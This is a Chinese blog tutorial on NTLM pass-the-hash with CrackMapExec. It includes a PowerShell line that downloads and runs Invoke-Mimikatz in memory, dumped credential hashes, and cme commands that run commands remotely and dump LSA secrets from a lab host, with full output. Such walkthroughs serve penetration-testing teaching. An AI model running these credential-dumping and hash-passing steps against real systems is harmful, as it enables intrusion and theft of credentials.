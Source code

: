 ```yaml
---
layout: post
title:  "使用CrackMapExec 进行 NTLM Hash传递攻击"
date:   2018-03-22
categories: 内网渗透
permalink: /archivers/2018-03-22/1
description: "本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击"
---
```


本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击
<!--more-->


## 0x01 前言

早期`SMB`协议在网络上传输明文口令。后来出现 `LAN Manager Challenge/Response `验证机制，简称`LM`，它是如此简单以至很容易就被破解。微软提出了WindowsNT挑战/响应验证机制，称之为NTLM。

从`Win2000`开始默认协议为`Kerboros`，下列情况会调用`NTLM`：

* 遗留客户端或服务器需要登录到网络或本地时。
* UNIX客户端需要与NT服务器通话时。
* 有正在使用验证`NTLM`的服务器信息块`（SMB）`后台程序的UNIX客户端时。
* 也即认证方或被认证方有仅支持NTLM情况时。

它以`挑战/响应（Challenge/Response）`顺序为基础。


* 1.客户端发送用户名和域名到服务器。
* 2.服务器转发到域控制器DC。
* 3.`DC`用客户端密码随机产生一个`8字节`得挑战`（Challenge）`，发送给服务器。
* 4.服务器将挑战转发给客户端。
* 5.客户端用密码经过`hash`及`DES`加密算法等操作得到一个加密结果响应`（Response）`发送给服务器。
* 6.服务器将响应转发给`DC`。
* 7.`DC`做同样操作验证客户端响应。
* 8.验证结束，返回结果通知服务器。


## 0x02 NTLM对渗透的作用

NTLM就好像是一个令牌，有了这个令牌就相当于获取了这个令牌所属者的权限。

最大的特点就是我们可以使用`SMB`执行`Command`。

## 0x03 CrackMapExec 介绍

CrackMapExec提供了域环境（活动目录）渗透测试中一站式便携工具，它具有列举登录用户、通过SMB(Server Message Block)网络文件共享协议爬虫列出SMB分享列表，执行类似于Psexec的攻击、使用powerShell脚本执行自动式Mimikatz/Shellcode/DLL注入到内存中，dump NTDS.dit密码。


WiKi:https://github.com/byt3bl33d3r/CrackMapExec/wiki

## 0x03 安装CrackMapExec

### Kali Linux

`apt-get install crackmapexec`

### Debian/Ubuntu

```
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install crackmapexec
```

## 0x04 传递NTLM Hash执行命令

### 使用`Mimikatz`获取`NTLM Hash`

```

PS C:\Users\administrator\Documents>IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')

PS C:\Users\administrator\Documents>Invoke-Mimikatz

```

获取NTLM Hash

```
****
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : PAYLOADS
         * LM       : 5609e3f4c7c56d5fa86fb73c70515bd7
         * NTLM     : dab7de8feeb5ecac65faf9fdc6cac3a9
         * SHA1     : 67302089bba4993f2f845e5992db0a21e64679fa
        tspkg :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        wdigest :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        kerberos :
         * Username : Administrator
         * Domain   : PAYLOADS.ONLINE
         * Password : ****
        ssp :
        credman :

****

```

### 使用`CrackMapExec`执行命令

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 -x whoami
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Executed command 
SMB         192.168.3.5     445    LIYINGZHEA30B    payloads\administrator
```

### 使用`CrackMapExec`获取本地密码(Local Security Authority)LSA

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 --lsa
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumping LSA secrets
SMB         192.168.3.5     445    LIYINGZHEA30B    WinHack:d3a4b1078aba22996575dd38056e3c99:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    Administrator:ff007a95ee46c0240e7f0c4b9b0c890a:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    PAYLOADS\LIYINGZHEA30B$:aad3b435b51404eeaad3b435b51404ee:eda8896ce9133d0bcaf0b6ece9cb0d45:::
SMB         192.168.3.5     445    LIYINGZHEA30B    DPAPI_SYSTEM:01000000faf06c0f43acbed98d62bd9829d053acb06a00f159e3419d193ff5be56c028fe8d7f0053161d9331
SMB         192.168.3.5     445    LIYINGZHEA30B    NL$KM:ac8c8a7ce1dd903d74a231a44fcf5df82db711df62e495da9b5f10c3a52dd618a8abce6975c69fea6a9ed69ff6511c62f9a750b5d696a69c3221dc0f1f849f3d
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumped 5 LSA secrets to /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.lsa and /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.cached
```

### More ...

后续再加
